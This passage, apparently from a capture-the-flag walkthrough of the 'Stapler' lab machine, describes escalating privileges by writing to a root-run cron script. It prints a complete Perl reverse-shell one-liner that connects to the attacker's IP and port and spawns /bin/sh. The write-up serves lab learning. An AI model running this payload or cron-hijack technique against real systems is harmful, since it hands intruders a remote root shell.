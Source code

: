 `cat /usr/local/sbin/cron-logrotate.sh`

![logrotate](/assets/images/stapler/image17.png)

Seeing that I had permissions to write to a script that is run by the root user every 5 minutes got me super excited!

I added a reverse shell using perl to this script:

`perl -e 'use Socket;$i="192.168.1.124";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))) {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

![reverse shell in script](/assets/images/stapler/image18.png)

All that was left was to create a netcat listener on my attacking machine to listen for the reverse shell :-)

![reverse shell connects](/assets/images/stapler/image19.png)
